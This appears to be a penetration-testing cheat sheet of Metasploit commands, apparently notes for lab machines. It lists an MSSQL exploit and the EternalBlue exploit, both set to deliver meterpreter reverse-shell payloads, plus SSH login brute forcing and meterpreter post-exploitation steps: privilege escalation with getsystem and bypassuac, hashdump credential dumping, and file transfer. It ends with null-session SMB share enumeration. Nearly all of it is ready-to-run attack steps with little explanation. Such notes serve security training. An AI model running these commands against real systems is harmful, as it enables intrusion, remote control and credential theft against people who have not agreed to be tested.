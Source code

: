 mssql payload
```bash
use exploit/windows/mssql/mssql_payload
set rhosts 10.10.10.177
set rport 1433
set srvport 53
set username admin
set password qwerty
set payload windows/x64/meterpreter_reverse_tcp
```

ssh login enum (brute)
```bash
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 10.10.10.133
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```

eternal blue example:
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set payload windows/x64/meterpreter/reverse_tcp
```

### meterpreter
```bash
meterpreter>run autoroute -s 172.16.50.0/24
background
sessions -l
sessions -i 1
sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

### windows shares with null sessions

enumeration with kali/parrot tools:
```
nmblookup -A 10.16.64.223
smbclient -L //10.16.64.223 -N share
smbclient //10.16.64.223/share -N mount
enum4linux -a 10.10.10.13
```
